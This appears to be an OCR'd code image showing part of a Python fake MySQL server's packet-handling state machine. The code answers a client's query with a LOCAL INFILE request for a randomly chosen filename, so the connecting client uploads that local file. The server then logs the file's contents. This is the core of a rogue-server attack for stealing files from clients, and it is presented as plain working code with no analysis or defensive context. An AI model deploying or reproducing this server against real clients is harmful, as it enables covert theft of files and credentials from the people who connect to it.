 ```python
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
                        self.push(None)
                        self.close_when_done()
                    else:
                        raise ValueError()
                else:
                    if self.sub_state == 'File':
                        log.info('-- result')
                        log.info('Result: %r', data)

                        if len(data) == 1:
                            self.push(
                                mysql_packet(packet, '\0\0\0\x02\0\0\0')
                            )
                            raise LastPacket()
                        else:
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.order = packet.packet_num + 1

                    elif self.sub_state == 'Auth':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    else:
                        log.info('-- else')
                        raise ValueError('Unknown packet')
```